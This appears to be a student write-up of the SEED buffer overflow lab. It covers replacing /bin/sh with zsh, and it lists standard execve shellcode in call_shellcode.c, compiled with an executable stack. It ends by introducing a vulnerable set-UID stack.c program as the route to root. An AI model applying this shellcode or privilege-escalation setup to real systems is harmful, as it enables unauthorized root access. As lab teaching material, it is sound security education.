 Configuring `/bin/sh`

In moderne versions of Ubuntu the `/bin/sh` program points at the newer `dash` program which has contermeasures that prevents itself from being executed in a `set-UID` program, because our victim program relies on being a `set-UID` program we need to change the shell program with the following command:

`sudo ln -sf /bin/zsh /bin/sh`

### **2.2	Task 1: Running Shellcode**

Shellcode is the code used to launch a shell program similar to using `execve()` to run `/bin/sh` within a c program. The program below from the SEED lab is used to launch `/bin/sh`

```c
/* call_shellcode.c  */

/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>

const char code[] =
  "\x31\xc0"             /* xorl    %eax,%eax              */
  "\x50"                 /* pushl   %eax                   */
  "\x68""//sh"           /* pushl   $0x68732f2f            */
  "\x68""/bin"           /* pushl   $0x6e69622f            */
  "\x89\xe3"             /* movl    %esp,%ebx              */
  "\x50"                 /* pushl   %eax                   */
  "\x53"                 /* pushl   %ebx                   */
  "\x89\xe1"             /* movl    %esp,%ecx              */
  "\x99"                 /* cdq                            */
  "\xb0\x0b"             /* movb    $0x0b,%al              */
  "\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code);
   ((void(*)( ))buf)( );
} 
```

Compiling this code with `gcc -z execstack -o call_shellcode call_shellcode.c` gives the following, you can see using the `ps` command that we have one bash process and on sh process

![2-2task1](/images/2-2task1.png)

### **2.3	The Vulnerable Program**

The program `stack.c` from SEED labs is vulnerable to a buffer overflow attack because of the call to the `strcpy()` function. We need to exploit this vulnerability and gain root privilege. When Compiling `stack.c` make sure to turn off the StackGuard and the non executable stack protections. Also make sure to make the stack program a `set-UID` program like shown below.
